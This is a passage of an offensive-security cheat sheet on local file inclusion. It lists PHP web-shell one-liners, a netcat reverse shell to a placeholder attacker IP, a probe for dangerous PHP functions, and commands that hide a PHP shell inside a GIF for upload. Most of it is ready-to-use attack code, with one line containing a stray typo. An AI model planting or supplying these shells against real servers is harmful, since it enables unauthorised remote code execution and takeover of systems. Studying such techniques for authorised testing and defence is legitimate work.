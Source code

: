 For smb, we do not need any non-default settings to be enabled.
 However, we must note that this technique is more likely to work if we were on the same network, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations.
 
## PHP Malicious Scripts
```
<?php system($_GET['c']); ?>
<?php system($_REQUEST['c']$); ?>

<?php
$os = shell_exec('id');
echo "<pre>$os</pre>";
?>

<?php
$os = shell_exec('nc 10.10.10.10 4444 -e /bin/bash');
?>

// Replace IP & Port

Dangerous PHP Functions that can be abused for RCE
<?php
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```
### File Upload
If the vulnerable function has code Execute capabilities, then the code within the file we upload will get executed if we include it, regardless of the file extension or file type. For example, we can upload an image file (e.g. image.jpg), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.


![image](https://user-images.githubusercontent.com/99975622/213590985-ec941f58-ecb9-4732-aa34-96fe7af7ee57.png)

File inclusion is usually done through image uplaod forms.

We can create a malicious image file;

```
echo '<?php system($_GET["cmd"]); ?>' > shell.gif
```

For file identity we can add the gif file tag/magic bytes at the start of the file...
```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
This file on its own is completely harmless and would not affect normal web applications in the slightest. However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.
